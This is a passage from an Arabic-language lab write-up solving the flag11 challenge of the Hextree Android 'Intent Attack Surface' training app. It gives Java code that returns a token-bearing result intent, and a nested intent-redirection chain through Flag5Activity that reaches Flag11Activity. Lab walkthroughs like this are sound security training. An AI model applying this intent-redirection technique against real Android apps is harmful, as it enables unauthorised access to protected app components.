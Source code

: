 زي الـ Activity اللي فاتت ده بيشوف هل  intent فاضي ؟ بس دلوقتي هيبدأه وهو مستني results عن طريق `startActivityForResult`، الـ Intent محتاج يكون فيه `token` كـ extra بقيمة `1094795585`

#### الحل

الـ xml زي اللي فات ونقدر نستخدم نفس الـ intent (اللي استقبلناه من activity11) ونضغط على flag11 من الـ app (Intent Attack Surface)

```java
    Intent recivedIntent = getIntent();  
    Utils.showDialog(this,recivedIntent);  
  
    // عشان نرجع result  
    recivedIntent.putExtra("token",1094795585);  
    setResult(RESULT_OK, recivedIntent);  
    finish()
```

أو ناخد الطريق الطويل الصعب

ده كان صعب لأن الـ intent الجه كان فاضي بس ده ممكن يكون مشكلة من عندي فقررت أفصلهم على 2 activities (واحد يبدأ request والتاني يستقبل ويبعت intent تاني)

بس واجهت مشاكل زي flag10 ولأن الـ flags اللي ضفتها مسحت instance الخاص بـ activity11 فحتى لو ناديته وبعتلي intent ميقدرش يرجعله لأن الـ instance المحدد ده اتقفل فعشان أحل ده ضفت نفس الـ flag عشان حتى لو اتقفل يتشغل تاني

ضفت method finish عشان أقفل الـ activities دي و توقف instance الخاص بـ activity 11 & 5 في الـ background و اقدر أبعت الـ result بتاعي

```java
Intent intent3 = new Intent();  
intent3.setComponent(new ComponentName(  
        "io.hextree.attacksurface",  
        "io.hextree.attacksurface.activities.Flag11Activity"));  
intent3.putExtra("reason","next");  
intent3.addFlags(Intent.FLAG_ACTIVITY_CLEAR_TOP | Intent.FLAG_ACTIVITY_SINGLE_TOP);  
  
Intent intent2 = new Intent();  
intent2.setComponent(new ComponentName(  
        "io.hextree.attacksurface",  
        "io.hextree.attacksurface.activities.Flag5Activity"));  
intent2.putExtra("return", 42);  
intent2.putExtra("nextIntent", intent3);  
  
Intent intent = new Intent();  
intent.setComponent(new ComponentName(  
        "io.hextree.attacksurface",  
        "io.hextree.attacksurface.activities.Flag5Activity"));  
intent.putExtra("android.intent.extra.INTENT", intent2);  
intent.addFlags(Intent.FLAG_ACTIVITY_CLEAR_TOP | Intent.FLAG_ACTIVITY_SINGLE_TOP);  
startActivity(intent);  
finish();
```

